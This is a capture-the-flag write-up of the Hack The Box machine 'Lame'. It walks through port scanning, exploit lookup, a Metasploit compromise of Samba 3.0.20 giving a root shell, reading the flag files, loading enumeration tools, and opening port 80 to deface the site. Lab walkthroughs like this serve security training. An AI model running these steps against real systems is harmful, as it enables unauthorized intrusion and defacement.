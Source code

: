 # Box: Lame
Roughly my 4th box on HTB, on my own, taking one hint when stuck on the first vector.
Went beyond-root to hijack the port 80 for a personal statement.

## `nmap` / recon
```
sudo nmap -sC -sV -p 21,22,139,445 10.10.10.3     

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
..
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
..
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  U  Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## vector 1: `vsftpd`
Not much to be gained from `anonymous` ftp login, so searching for  vsftpd CVEs:
```
searchsploit -w vsftpd 2.3.4
----------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                         |  URL
----------------------------------------------------------------------- --------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                              | https://www.exploit-db.com/exploits/49757
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                 | https://www.exploit-db.com/exploits/17491

```
Seems like lower-hanging fruit than Samba for now.

## initial foothold

After finding the CVE in `msfconsole`:
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
```
After trying a few different settings, I gave up on this vector. But I learned:
- no `nc -lvnp <port>` is necessary to `run` from `msfconsole`
- `lsof -i :<port>`

I took a hint here to "abort" going down this path, which is time-saving.

## vector 2: `samba`
```
searchsploit -w samba 3.0.2
----------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                         |  URL
----------------------------------------------------------------------- --------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (M | https://www.exploit-db.com/exploits/16320
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)     | https://www.exploit-db.com/exploits/9950
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit) | https://www.exploit-db.com/exploits/16859
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploi | https://www.exploit-db.com/exploits/16329
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow               | https://www.exploit-db.com/exploits/4732
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)      | https://www.exploit-db.com/exploits/5712
Samba < 3.0.20 - Remote Heap Overflow                                  | https://www.exploit-db.com/exploits/7701
Samba < 3.6.2 (x86) - Denial of Service (PoC)                          | https://www.exploit-db.com/exploits/36741

```

Going down the list, starting with first one `multi/samba/usermap_script`

Upgrading the `root` shell, and get both flags
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

cat /home/makis/user.txt
cat /root/root.txt
```

## Beyond Root
A bit more exploration, first looking at the reverse shell `lsof -i :4444`
```
ruby    398950 vcap   10u  IPv4 842994      0t0  TCP 10.10.14.6:4444->10.10.10.3:34594 (ESTABLISHED)
```
The high number port `34594` is interesting, and worth looking at the exploit script to find out the mechanics.

Then loading the `linpeas.sh` and `pspy` onto the box.
```
id
uid=0(root) gid=0(root)

uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

From `linpeas.sh` no credentials to exfil.

From `pspy32` (interesting) I can see `apache2` is on there and we can open up port 80.

with `systemctl` and `service` not available for this machine, after some digging, to serve the page in `/var/www/html`:
```
sudo /etc/init.d/apache2 start

netstat -tuln | grep 80
tcp        0      0 0.0.0.0:8009            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:8180            0.0.0.0:*               LISTEN     
udp        0      0 127.0.0.1:58038         0.0.0.0:*                         

ufw status
Firewall loaded
To                         Action  From
--                         ------  ----
22:tcp                     ALLOW   Anywhere
22:udp                     ALLOW   Anywhere
21:tcp                     ALLOW   Anywhere
3632:tcp                   ALLOW   Anywhere
3632:udp                   ALLOW   Anywhere
139:tcp                    ALLOW   Anywhere
139:udp                    ALLOW   Anywhere
445:tcp                    ALLOW   Anywhere
445:udp                    ALLOW   Anywhere

sudo ufw allow 80/tcp
sudo ufw reload
```

This works like a charm, and actually I asked GPT to write a fancy page and put it on `/var/www/`, the result:
![lame pwn](../img/lame.png)

## AAR
I'll revisit this box in the future to DIY the exploit script from scratch.